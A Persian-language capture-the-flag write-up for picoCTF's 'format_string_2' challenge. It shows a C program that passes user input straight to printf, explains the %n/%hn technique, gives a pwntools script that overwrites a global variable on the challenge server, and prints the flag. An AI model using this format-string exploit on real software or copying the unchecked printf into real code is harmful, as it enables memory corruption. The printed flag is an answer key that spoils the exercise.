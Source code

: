 ```yaml
---
tags:
  - PWN
---
```

# format_string_2

درود و صد درود !
 با یه چالش جذاب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1) 


این از سورس فایل.
``` cpp
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

مشخصه که ما باید مقدار $sus$ رو به مقدار $0x67616c66$ تبدیل کنیم.
با استفاده از ابزار checksec می‌توان متوجه شد که PIE غیرفعال است و در نتیجه آدرس ها در برنامه ثابت هستند.

برای تغییر مقدار $sus$ می‌تونیم از استرینگ فرمت ها استفاده کنیم . 
فرمت استرینگ $ %n $ را استفاده می‌کنیم که کافی است مقدار $0x67616c66$ کاراکتر نوشته باشیم و سپس با استفاده از $%n$ آن ها را در $sus$ بریزیم. با استفاده از gdb می‌توان پیدا کرد که آدرس متغییر $sus$ برابر است با $404060$ و همچنین در خانه $18$ استک هم وجود دارد.

چون مقدار $0x67616c66$ زیاد است به جای نوشتن این حجم کاراکتر و سپس استفاده کردن $%n$، آن را به دو بخش تقسیم می‌کنیم سپس با $%hn$ آن را در حافظه می‌نویسیم.

 کد زیر مرحله به مرحله کارهای ذکر شده را با یک اسکریپت نشان می‌دهد:
```py
from pwn import *

chall = remote("rhea.picoctf.net", 56778)

sus_1 = bytes.fromhex("404062")[::-1] + b'\x00' * 5  # (8 bytes)
sus_2 = bytes.fromhex("404060")[::-1] + b'\x00' * 5  # (8 bytes)

val_1 = int("6761", 16)
val_2 = int("6c66", 16)

payload = b'%' + str(val_1).encode() + b'c%18$hn' + b'%' + str(val_2 - val_1).encode() + b'c%19$hn'
payload += ((8 - len(payload) % 8) % 8) * b'\x00'  # (Fit the frame)
payload += sus_1 + sus_2

chall.sendlineafter(b'?\n', payload)
chall.interactive()

```

فلگ پیدا شد !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)